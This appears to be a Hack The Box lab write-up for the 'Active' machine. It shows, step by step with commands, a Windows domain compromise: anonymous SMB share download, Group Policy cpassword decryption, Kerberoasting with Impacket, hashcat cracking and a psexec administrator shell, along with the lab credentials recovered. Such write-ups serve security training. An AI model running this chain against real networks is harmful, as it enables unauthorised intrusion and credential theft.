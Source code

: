 ```yaml
---
description: https://www.hackthebox.eu/home/machines
---
```


# Active

![](<../../../.gitbook/assets/image (381) (1).png>)

### Nmap

We start off with a basic initial scan on Nmap.

```
nmap 10.10.10.100 -p- -sS -T4 -sV

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-11-21 14:22:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

We find port 53 open and ports for LDAP and Kerberos open which means we are almost certainly dealing with a domain controller.

### Port 445 (SMB)

I started off checking SMB for any quick and easy wins by attempting to authenticate without credentials against the domain controller.

```
smbclient -N -L \\\\10.10.10.100 
```

![](<../../../.gitbook/assets/image (382).png>)

We can use `smbmap` to check what shares we have access to without credentials.

```
smbmap -H 10.10.10.100
```

![](<../../../.gitbook/assets/image (383).png>)

We have read access to the "Replication" share. We can run `smbget` against this recursively to download the entire share.

```
smbget -R -U "" smb://10.10.10.100/Replication
```

![](<../../../.gitbook/assets/image (385).png>)

### Group Policy

After downloading the share we can navigate to the downloaded folders on our attacking machine. When browsing through them the folder of interest is the 'Policies' folder.

![](<../../../.gitbook/assets/image (386).png>)

When dealing with Group Policy folders the ideal information to gather would be a value called "cpassword' which is usually located in Groups.xml. Below is a great blog post regarding this.

{% embed url="https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/" %}

If you go to the following location "\_active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml" Y\_ou will see we have the following information contained in the XML file.

![](<../../../.gitbook/assets/image (387).png>)

### Password Decryption

We have a username of SVC\_TGS and a cpassword value.\_ \_Kali comes with a tool called `gpp-decrypt`. We can use this to decrypt the cpassword value into plain text.

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![](<../../../.gitbook/assets/image (388) (1).png>)

Password: GPPstillStandingStrong2k18

I Then tried to connect to WinRM on port 47001 with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) however, I had no luck with the credentials we have gained so far. We do have Kerberos on port 88 running so we have potential here to enumerate further credentials and accounts.

Before we do anything lets confirm if the credentials work on SMB. We can use `smbmap` to quickly see what we can now access.

```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -r 'Users'
```

![](<../../../.gitbook/assets/image (389).png>)

We can now run a recursive search with -R on `smbmap` to get a quick glance at any potential loot.

![](<../../../.gitbook/assets/image (390).png>)

We now have access to user.txt. Nothing else interesting here so we can check out Port 88 for some Kerberoasting since we have a valid domain account.

### Port 88 (Kerberos)

We can use Impacket's GetSPNusers.py script to gather any Kerberos tickets.

```
python GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

![](<../../../.gitbook/assets/image (391).png>)

### Hash Cracking

We now have a hash for the Administrator account. I tried running the hash through John but, could not get John to recognize the format. Instead I moved over to `Hashcat` and run the hash type through the examples page to find the correct mode to run it against.

[https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

![](<../../../.gitbook/assets/image (392).png>)

```
hashcat -m 13100 -a 0 /home/kali/Desktop/hash.txt /usr/share/wordlists/rockyou.txt 
```

`Hashcat` soon cracks the password as: `Ticketmaster1968`

### Shell as Administrator

Now we have valid credentials we can potentially gain further access in multiple ways. The first time I grabbed the flag using `smbclient` to access C$ however, if this was a real penetration test ideally we would demonstrate shell as system / administrator.

To gain shell I will use Impacket's psexec.py.

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

![](<../../../.gitbook/assets/image (393).png>)

From here we can loot both the root.txt and user.txt flags.
